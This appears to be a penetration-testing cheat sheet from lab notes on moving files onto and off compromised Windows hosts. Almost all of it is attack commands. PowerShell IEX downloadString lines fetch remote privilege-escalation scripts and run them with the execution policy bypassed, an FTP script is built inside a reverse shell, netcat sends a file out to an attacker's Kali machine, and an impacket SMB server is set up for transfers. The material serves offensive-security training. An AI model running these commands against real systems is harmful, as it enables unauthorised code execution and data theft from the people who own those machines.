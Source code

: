 ### Windows download with powershell

````
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.1.111/file.exe','C:\Users\Public\file.exe')"

(New-Object System.Net.WebClient).DownloadFile("http://10.11.1.111/CLSID.list","C:\Users\Public\CLSID.list")
````

### PowerShell Priv Esc

```
powershell IEX (New-Object Net.WebClient).downloadString('https://192.168.49.221/jaws-enum.ps1')
powershell Invoke-AllChecks

powershell IEX (New-Object Net.WebClient).downloadString('https://192.168.49.221/Jaws.ps1')
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename EnumOutput.txt
```

### Windows Download from FTP

```
# In reverse shell
echo open 10.11.1.111 > ftp.txt
echo USER anonymous >> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET file >> ftp.txt
echo bye >> ftp.txt

# Execute
ftp -v -n -s:ftp.txt
```
### Windows NC File Transfer
```
nc.exe -vn 192.168.119.131 8080 < win_rev.doc #From windows machine
nc -lvnp 8080 > win_rev.doc   #To kali box
```

### Windows create SMB Server transfer files

```bash
# Attack machine
python3 /usr/share/impacket/impacket/examples/smbserver.py Lab "/root/labs/public/10.11.1.111"

	# Or SMB service
	# http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html
	vim /etc/samba/smb.conf
		[global]
		workgroup = WORKGROUP
		server string = Samba Server %v
		netbios name = indishell-lab
		security = user
		map to guest = bad user
		name resolve order = bcast host
		dns proxy = no
		bind interfaces only = yes

		[ica]
		path = /var/www/html/pub
		writable = no
		guest ok = yes
		guest only = yes
```